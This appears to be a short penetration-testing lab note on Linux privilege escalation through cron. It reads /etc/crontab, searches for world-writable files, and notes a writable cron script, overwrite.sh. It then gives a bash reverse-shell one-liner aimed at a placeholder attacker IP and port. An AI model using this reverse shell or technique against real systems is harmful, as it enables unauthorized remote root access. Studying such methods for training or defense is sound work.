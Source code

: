 # crontab

to display schedule task

```bash
cat /etc/crontab 
# And
find / -path /proc -prune -o -type f -perm -o+w 2>/dev/null
```

![image.png](<../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1).png>)

we found two bash script so let’s know the privileges of this files

<figure><img src="../../../.gitbook/assets/image 1 (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

so we found \[`overwrite.sh](http://overwrite.sh)` we can write in this file so let’s take a revers shell

```bash
bash -c 'bash -i >& /dev/tcp/AttackerIP/portnumber 0>&1'
```

<figure><img src="../../../.gitbook/assets/image 2 (2).png" alt=""><figcaption></figcaption></figure>
